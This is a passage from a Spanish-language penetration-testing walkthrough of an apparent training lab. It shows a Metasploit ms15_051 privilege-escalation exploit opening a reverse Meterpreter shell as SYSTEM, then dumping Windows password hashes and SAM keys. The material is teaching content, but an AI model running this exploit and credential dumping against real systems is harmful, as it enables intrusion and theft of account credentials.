```
session => 1

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

LHOST => tun0

msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.26:4444
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

```

Desde aquí, podemos proceder a usar la gran cantidad de funcionalidades meterpreter. Por ejemplo, extraer hashes, hacerse pasar por cualquier proceso que queramos y otros.

### **MSF - Dumping Hashes**

Meterpréter

```
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::

meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
```